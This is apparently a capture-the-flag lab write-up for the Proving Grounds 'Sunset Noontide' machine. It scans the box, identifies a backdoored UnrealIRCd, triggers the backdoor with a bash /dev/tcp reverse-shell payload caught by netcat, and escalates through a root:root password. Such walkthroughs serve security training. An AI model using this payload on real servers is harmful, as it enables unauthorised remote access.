 ```yaml
---
layout: post
author: H4
---
```


[Details](https://www.vulnhub.com/entry/sunset-noontide,531/)  
This box was customized by Offensive Security and integrated in the 'proving grounds' lab.  
In the following you see the solution of the 'proving grounds' version.  

# enumeration
Performing a simple `nmap` scan to identify the attack surface.

## nmap
```bash
$ nmap -Pn 192.168.156.120                                                                                                                                                                                                            1 ⨯
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-03 00:38 EST
Nmap scan report for 192.168.156.120
Host is up (0.027s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
6667/tcp open  irc

Nmap done: 1 IP address (1 host up) scanned in 1.71 seconds
```

```bash
$ nmap -Pn -p6667 -sV 192.168.169.120
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-02 16:18 EST
Nmap scan report for 192.168.169.120
Host is up (0.11s latency).

PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
Service Info: Host: irc.foonet.com
```

Only an `IRC` service could be identified.

---

# exploitation
## scan for vulnerabilities
```bash
$ nmap -Pn -p6667 --script="irc*" 192.168.156.120
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-03 00:39 EST
Nmap scan report for 192.168.156.120
Host is up (0.025s latency).

PORT     STATE SERVICE
6667/tcp open  irc
|_irc-unrealircd-backdoor: Looks like trojaned version of unrealircd. See http://seclists.org/fulldisclosure/2010/Jun/277

Nmap done: 1 IP address (1 host up) scanned in 17.52 seconds
```

```bash
$ searchsploit unrealirc backdoor
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                                                                                                              | linux/remote/16922.rb
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

> The installed `IRC` server seems to be backdoored!
{: .prompt-info}

Reviewing the source code of the `metasploit` module reveals that a simple payload can be used to access the backdoor.  
![image](/images/sunsetnoontide1.png)

## get reverse shell
payload: ```AB;bash -c 'bash -i >& /dev/tcp/192.168.49.156/80 0>&1'```

### start listener on attacking machine
```bash
$ nc -lvp 80  
listening on [any] 80 ...
```

### trigger backdoor
```bash
$ nc 192.168.156.120 6667                             
:irc.foonet.com NOTICE AUTH :*** Looking up your hostname...
:irc.foonet.com NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
AB;bash -c 'bash -i >& /dev/tcp/192.168.49.156/80 0>&1'
```

### catch connect from target
```bash
$ nc -lvp 80  
listening on [any] 80 ...
192.168.156.120: inverse host lookup failed: Unknown host
connect to [192.168.49.156] from (UNKNOWN) [192.168.156.120] 48232
bash: cannot set terminal process group (396): Inappropriate ioctl for device
bash: no job control in this shell
server@noontide:~/irc/Unreal3.2$ whoami
whoami
server
```

---

# post exploitation
## get first flag
```bash
server@noontide:~$ cd /home/server
server@noontide:~$ ls
ls
irc
local.txt
server@noontide:~$ cat local.txt
cat local.txt
4******************************9
```

## privilege escalation

> The account `root` uses wek credentials: `root:root`.
{: .prompt-info}

```bash
server@noontide:~/irc/Unreal3.2$ su root
root@noontide:~/irc/Unreal3.2# whoami
whoami
root
```

---

## second flag
```bash
root@noontide:/tmp# cd /root
cd /root
root@noontide:~# ls
ls
proof.txt
root@noontide:~# cat proof.txt
cat proof.txt
3******************************2
```

Pwned! <@:-)
